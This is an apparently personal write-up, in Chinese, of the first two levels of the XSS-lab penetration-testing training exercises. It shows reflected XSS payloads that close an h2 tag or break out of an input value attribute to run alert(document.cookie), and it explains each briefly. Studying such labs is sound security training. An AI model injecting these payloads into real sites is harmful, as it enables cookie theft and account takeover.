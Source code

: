 ```yaml
---
title: XSS-lab
index: true
icon: x
order: 3
isOriginal : true
date: 2023-02-15
category:
  - 渗透测试
tag:
  - 渗透测试
  - XSS-lab
---
```

# XSS-lab实验

## level1

payload：

```bash
47.113.187.190:50974/level1.php?name=111</h2><script>alert(document.cookie)</script>
```

解析：观察URL发现是GET传参并写入H2里，所以闭合H2标签写js就可。

## level2

观察发现值在value

​![image](assets/image-20240913161106-8os9zxw.png)​

payload：

```bash
111"onclick='javascript:alert(document.cookie)'
```

